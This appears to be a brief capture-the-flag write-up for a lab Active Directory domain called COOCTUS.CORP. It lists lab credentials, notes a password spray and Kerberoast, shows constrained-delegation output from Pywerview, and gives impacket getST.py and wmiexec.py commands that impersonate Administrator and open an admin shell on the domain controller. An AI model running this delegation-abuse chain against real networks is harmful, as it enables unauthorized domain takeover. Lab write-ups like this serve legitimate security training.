 # Foothold


## Potential Users
```
DB Creds
C00ctusAdm1n:B4dt0th3b0n3
COOCTUS.CORP\CRYILLIC:qwerty
password-reset:resetpassword
```

Password spray --> Cryillic
Kerberoast from Cryillic --> password-reset

password-reset
RPC

### Pywerview Notable Output
```
msds-allowedtodelegateto: oakley/DC.COOCTUS.CORP/COOCTUS.CORP,
oakley/DC.COOCTUS.CORP, 
oakley/DC,
oakley/DC.COOCTUS.CORP/COOCTUS,      
oakley/DC/COOCTUS
```


## GetST.py to create an administrator ticket
`/opt/impacket/examples/getST.py -impersonate Administrator -spn oakley/DC.COOCTUS.CORP 'COOCTUS.CORP/password-reset:resetpassword'`

`export KRB5CCNAME=$(pwd)/Administrator.ccache`

`/opt/impacket/examples/wmiexec.py COOCTUS.CORP/administrator@DC.COOCTUS.CORP -k -no-pass`

export that and use wmiexec with `-k -no-pass` to gain a shell as admin. 

Then go on a wild goose chase to find the flags :kekw: